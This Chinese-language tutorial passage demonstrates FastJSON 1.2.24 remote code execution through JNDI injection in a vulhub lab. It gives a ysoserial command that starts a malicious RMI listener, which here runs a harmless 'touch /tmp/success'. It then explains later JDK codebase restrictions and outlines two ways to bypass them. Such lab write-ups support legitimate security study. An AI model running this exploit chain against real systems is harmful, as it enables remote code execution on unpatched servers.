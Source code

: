 ### <a class="reference-link" name="FastJSON%201.2.24%20RCE"></a>FastJSON 1.2.24 RCE

这里我们以FastJSON 1.2.24版本的RCE为例，来试验JNDI

首先开启一个evil rmi server

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRefListener2 host:1099 80 EvilObj "touch /tmp/success"
```

用[vulhub](https://github.com/vulhub/vulhub/blob/master/fastjson/1.2.24-rce/README.md)的环境

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01e2b2ec98d595385a.png)

在服务器端会接收到连接

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t012d4c97f85c6f8c28.png)

进到docker里可以看到生成了success文件

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01a262a1b5e8d5449f.png)



## 0x04 后续

前文用的环境是JDK8u111，在后续的JDK8u113以及JDK6u132, JDK7u122之后增加了对远程codebase的限制

> 系统属性 com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false，即默认不允许从远程的Codebase加载Reference工厂类。如果需要开启 RMI Registry 或者 COS Naming Service Provider的远程类加载功能，需要将前面说的两个属性值设置为true。
Changelog:
<ul>
<li>JDK 6u141 [http://www.oracle.com/technetwork/java/javase/overview-156328.html#R160_141](http://www.oracle.com/technetwork/java/javase/overview-156328.html#R160_141)
</li>
<li>JDK 7u131 [http://www.oracle.com/technetwork/java/javase/7u131-relnotes-3338543.html](http://www.oracle.com/technetwork/java/javase/7u131-relnotes-3338543.html)
</li>
<li>JDK 8u121 [http://www.oracle.com/technetwork/java/javase/8u121-relnotes-3315208.html](http://www.oracle.com/technetwork/java/javase/8u121-relnotes-3315208.html)
</li>
</ul>
摘自[https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html](https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html)

那么如果存在这样一个漏洞但是又是高版本的JDK环境，该怎么进行bypass呢？

> <ol>
- 找到一个受害者本地CLASSPATH中的类作为恶意的Reference Factory工厂类，并利用这个本地的Factory类执行命令。
- 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对该对象进行反序列化操作，利用反序列化Gadget完成命令执行。
</ol>
摘自[https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html](https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html)
